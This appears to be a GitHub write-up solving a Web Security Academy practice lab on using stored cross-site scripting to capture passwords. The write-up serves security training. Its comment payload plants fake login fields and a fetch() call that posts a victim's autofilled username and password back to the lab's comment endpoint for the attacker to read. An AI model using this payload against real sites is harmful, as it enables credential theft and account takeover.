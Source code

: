 # XSS LAB 23 - Exploiting cross-site scripting to capture passwords

## Manual Solution

### 1. Access the Lab.
- Open the Web Security Academy lab environment in your browser.

### 2. Creating a comment:
- Comment: `<script>alert('XSS')</script>`
- Name: `Anything`
- Email: `Anything@anything.com`
- Website: `https://www.anything.com`
- Submit to comment and an alert pop-up appears.
- This confirms that we can inject arbitrary JavaScript code

### 3. Inspecting the Form Elements.
- Inspect the post page. You'll see a form element.
```html
 <form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
    <input required type="hidden" name="csrf" value="KYE5AGcZujltNAyFT9tcICBwoW3y1lEC">
    <input required type="hidden" name="postId" value="6">
    <label>Comment:</label>
    <textarea required rows="12" cols="300" name="comment"></textarea>
        <label>Name:</label>
        <input required type="text" name="name">
        <label>Email:</label>
        <input required type="email" name="email">
        <label>Website:</label>
        <input pattern="(http:|https:).+" type="text" name="website">
        <button class="button" type="submit">Post Comment</button>
</form>
```
- There are six required fields. CSRF token and POST ID are hidden.
- We can retrieve CSRF token using:
```js
document.getElementsByName("csrf")[0].getAttribute('value');
```

### 4. Stealing credentials
- We can inject and execute any JavaScript code we want.
- Create a comment
    - Name: `Anything`
    - Email: `Anything@anything.com`
    - Website: `https://www.anything.com`
    - Comment: 

    ```js
        <input name="username" id="username">
        <input type="password" name="password" onchange="credentials()">

        <script>
            function credentials() {
                let csrf_token = document.getElementsByName("csrf")[0].value;
                let username = document.getElementsByName("username")[0].value;
                let password = document.getElementsByName("password")[0].value;
            
                let data = new FormData();
                data.append('postId', '1');
                data.append('csrf', csrf_token);
                data.append('comment', username + ' ' + password);
                data.append('name', 'kurabiye');
                data.append('email', 'asd@asd.com');
                data.append('website', 'https://www.google.com');
                
                fetch('https://0a460096043f826f80bab230004400cb.web-security-academy.net/post/comment', {
                    method: 'POST',
                    mode: 'no-cors',
                    body: data
                });
            }
        </script>
    ```
    - When a victim visits the post page this JavaScript code automatically creates username and password fields.
    - Victim enters username and password as part of the lab simulation. The username and password are then reflected on the post page.
    - The `fetch` function sends a POST request to the relevant URL. This function has a parameter called body which is used to send data to the server.
    - The data variable stores form data. We use `data.append` to add our desired data to the form data.

### 5. Logging in as Admin:
- After submitting the injected comment you will see the admin's username and password.
- Log in as the admin and solve the lab.

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python xss_lab_23.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```